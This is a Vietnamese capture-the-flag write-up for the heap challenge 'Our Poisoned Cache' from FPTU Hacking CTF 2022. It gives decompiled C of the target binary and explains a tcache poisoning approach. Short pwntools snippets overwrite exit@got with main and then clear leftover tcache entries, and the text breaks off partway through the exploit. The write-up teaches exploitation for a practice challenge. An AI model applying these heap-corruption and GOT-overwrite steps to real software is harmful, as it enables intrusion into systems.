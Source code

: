 # [Our Poisoned Cache - FPTU Hacking CTF 2022]

Checksec xem nó thế nào đã:
![image](https://user-images.githubusercontent.com/54637811/176064973-7838dab6-b41a-4afa-bac8-74be7196cbd1.png)

Trông khá hứa hẹn, còn đây là code của em nó sau khi dịch ngược:

```C
void main(EVP_PKEY_CTX *param_1) {
    undefined8 local_38;
    undefined8 *local_30;
    void *local_28;
    undefined8 *local_20;
    undefined8 *local_18;
    long *local_10;

    init(param_1);
    local_10 = (long *)malloc(0x40);
    local_18 = (undefined8 *)((ulong)local_10 & 0xfffffffffffff000);
    local_20 = local_18 + 0x4200;
    local_30 = (undefined8 *)0x0;
    local_38 = 0;
    malloc(0x10);
    free(local_10);
    printf("Heap base is: %p\n", local_18);
    printf("Stack address is: %p\n", &local_38);
    puts("You can write wherever you want inside the heap");
    puts("Where:");
    __isoc99_scanf("%p", &local_30);
    puts("What:");
    __isoc99_scanf("%p", &local_38);
    if ((local_18 <= local_30) && (local_30 < local_20)) {
        *local_30 = local_38;
    }
    if (((*local_10 == 0) && (local_18 <= (undefined8 *)local_10[1])) &&
        ((undefined8 *)local_10[1] < local_20))
    {
        local_28 = malloc(0x40);
        read(0, local_28, 0x30);
        exit(0);
    }
    exit(0);
}

void secret(void)

{
    char local_58[76];
    int local_c;

    puts("Do you trust me?");
    puts("Are you thinking this is it?");
    puts("Is this where you find my secret?");
    memset(local_58, 0, 0x40);
    local_c = open("./secret.txt", 0);
    read(local_c, local_58, 0x40);
    puts(local_58);
    close(local_c);
    return;
}
```

NÓ cho địa chỉ Heap và Stack, rồi nó cho Write Where What nhưng với điều kiện địa chỉ nằm trong Heap và Heap + 0x4200.

Để ý thì nó malloc 0x40 xong free ngay sau đó, để lại 1 freed chunk trong tcache bin. Nếu ta thay đổi con trỏ này thì lần malloc tiếp theo sẽ trả về con trỏ mới được ghi đè.

Mục tiêu đầu tiên cần nghĩ tới là để nó trỏ tới got để ghi đè exit@got bằng main.
```python
r.sendlineafter(b'Where:\n', hex(heap+0xa8).encode())
r.sendlineafter(b'What:\n', hex(bin.got['exit']).encode())
r.send(p64(bin.symbols['main']))
```
Ok ngon nghẻ, nhưng nếu lần 2 thì sẽ không được vì điều kiện này
```C
if (((*local_10 == 0) && (local_18 <= (undefined8 *)local_10[1])) &&
        ((undefined8 *)local_10[1] < local_20))
```

Khi ta malloc 0x40 để ghi đè ở bước trước thì nó sẽ để lại 1 số thứ linh tinh ở trên tcache bin
![image](https://user-images.githubusercontent.com/54637811/176068078-20484a51-7ab3-44d4-8e16-fb5f2ae0c801.png)
Như vậy lần malloc 0x40, free nó thì `*local_10 != 0`, không thỏa mãn điều kiện. Do đó ta cần dọn dẹp cái đống đó đi
```python
r.sendlineafter(b'Where:\n', hex(heap+0xa8).encode())
r.sendlineafter(b'What:\n', hex(heap+0x2a0).encode())
```

